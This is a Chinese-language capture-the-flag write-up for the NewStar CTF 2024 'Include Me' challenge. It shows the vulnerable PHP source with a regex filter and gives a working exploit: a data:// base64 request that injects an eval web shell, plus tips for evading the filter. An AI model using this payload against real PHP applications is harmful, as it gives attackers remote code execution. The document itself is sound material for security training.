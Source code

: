 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Include Me

打开题目 5s 后会自动跳转搜索 PHP 伪协议

![跳转结果](/assets/images/wp/2024/week3/include-me_1.png)

要防止跳转，使用 GET 传入 `iknow` 即可

题目源码如下

```php
<?php
highlight_file(__FILE__);
function waf() {
    if(preg_match("/<|\?|php|>|echo|filter|flag|system|file|%|&|=|`|eval/i",$_GET['me'])){
        die("兄弟你别包");
    };
}
if (isset($_GET['phpinfo'])) {
    phpinfo();
}

// 兄弟你知道了吗？
if (!isset($_GET['iknow'])) {
    header("Refresh: 5;url=https://cn.bing.com/search?q=php%E4%BC%AA%E5%8D%8F%E8%AE%AE");
}

waf();
include $_GET['me'];
echo "兄弟你好香";
?>
```

我们使用 GET 传入 `phpinfo` 后可验证远程文件包含漏洞的必要条件满足

![phpinfo](/assets/images/wp/2024/week3/include-me_2.png)

接着就是绕 waf，这里使用的是 data 协议加 base64 加密

```http
GET /?iknow=1&me=data:text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWzBdKT8+%2B HTTP/1.1
```

`<?php @eval($_POST[0])?>` 的 Base64 加密结果为 `PD9waHAgQGV2YWwoJF9QT1NUWzBdKT8+`，加号作转义

::: warning 注意

这里有几点需要注意：

- Base64 加密后的字符串不能带有 `=`，因为会被 waf，这时直接删掉结尾等号即可，后者在明文后面多加一些空格以使加密结果不带等号
- 若密文最后是 `+` 的话，我们在 GET 传参必须将其编码为 `%2B`，不然 `+` 会被视作空格

:::
